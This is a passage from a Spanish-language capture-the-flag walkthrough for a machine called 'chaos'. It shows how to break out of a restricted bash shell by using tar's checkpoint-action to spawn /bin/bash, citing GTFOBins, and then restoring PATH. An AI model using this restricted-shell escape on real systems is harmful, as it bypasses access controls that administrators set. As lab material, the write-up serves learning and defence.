 Vamos a ver la flag:
```
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
ayush@chaos:/home$ 
```

Sin embargo, no podemos debido a que tenemos la bash restringida, si hacemos doble tab:
```
ayush@chaos:/home$ 
!                         break                     coproc                    esac                      getopts                   mapfile                   set                       true
./                        builtin                   declare                   eval                      hash                      ping                      shift                     type
:                         caller                    dir                       exec                      help                      popd                      shopt                     typeset
[                         case                      dirs                      exit                      history                   printf                    source                    ulimit
[[                        cd                        disown                    export                    if                        pushd                     suspend                   umask
]]                        command                   do                        false                     in                        pwd                       tar                       unalias
{                         command_not_found_handle  done                      fc                        jobs                      read                      test                      unset
}                         compgen                   echo                      fg                        kill                      readarray                 then                      until
alias                     complete                  elif                      fi                        let                       readonly                  time                      wait
bg                        compopt                   else                      for                       local                     return                    times                     while
```

Vemos todos los que podemos utilizar, hay uno en especial que es bastante interesante, corresponde al tar, pues si buscamos en la página web de [GTFobins](https://gtfobins.github.io/) encontramos con que tar permite dar una shell, en este caso los permitiría saltarnos la rbash:
```
ayush@chaos:/home$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
bash: groups: command not found
```
```
Si intentamos realizar un comando:

ayush@chaos:/home$ ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
```

Vemos que ya no tenemos resticción, sin embargo, faltan rutas en el path, por lo tanto, vamos a cambiar eso:
```
ayush@chaos:/home$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

Utilizamos la variable path de nuestro equipo.
